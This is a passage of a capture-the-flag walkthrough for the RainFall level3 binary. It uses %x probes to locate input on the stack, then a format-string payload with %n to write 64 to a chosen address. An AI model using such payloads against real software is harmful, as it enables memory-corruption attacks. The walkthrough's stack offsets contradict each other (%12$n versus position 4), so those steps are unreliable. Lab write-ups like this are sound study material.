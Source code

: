 ## Format String Exploitation Strategy

### 7. Understanding Format String %n
```bash
# %n writes the number of characters printed so far to memory address
# Example: "AAAA%10c%n" 
# - Prints "AAAA" (4 chars) + 10 spaces = 14 total characters
# - Writes "14" to address on stack
```

### 8. Find Stack Position of Our Input
```bash
level3@RainFall:~$ python -c 'print "AAAA" + "%x " * 15' | ./level3
AAAA200 b7fd1ac0 b7ff37d0 41414141 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078

# Found our "AAAA" (0x41414141) at position 4!
```

### 9. Test Direct Stack Writing
```bash
level3@RainFall:~$ python -c 'print "\x8c\x98\x04\x08" + "%12$n"' | ./level3
# This writes address 0x804988c to stack position 1
# Then %12$n writes to the address at stack position 12
# But we need to write the VALUE 64, not the address
```

### 10. Calculate Exact Format String
We need to write **64** to address **0x804988c**:

```bash
# Method: Print exactly 64 characters, then use %n to write count
# Format: [target_address] + [64_chars] + [%n_at_right_position]

level3@RainFall:~$ python -c 'print "\x8c\x98\x04\x08" + "A" * 60 + "%12$n"' | ./level3
# This prints: 4 bytes (address) + 60 A's = 64 total characters
# Then %12$n writes "64" to the address at stack position 12
```

## Exploitation

### 10. Find Correct Stack Position
```bash
# Test direct parameter access to confirm position
level3@RainFall:~$ python -c 'print "AAAA%4$x"' | ./level3
AAAA41414141

# Perfect! Our input is at stack position 4
# So %4$n will write to the address we place at the start of our input
```
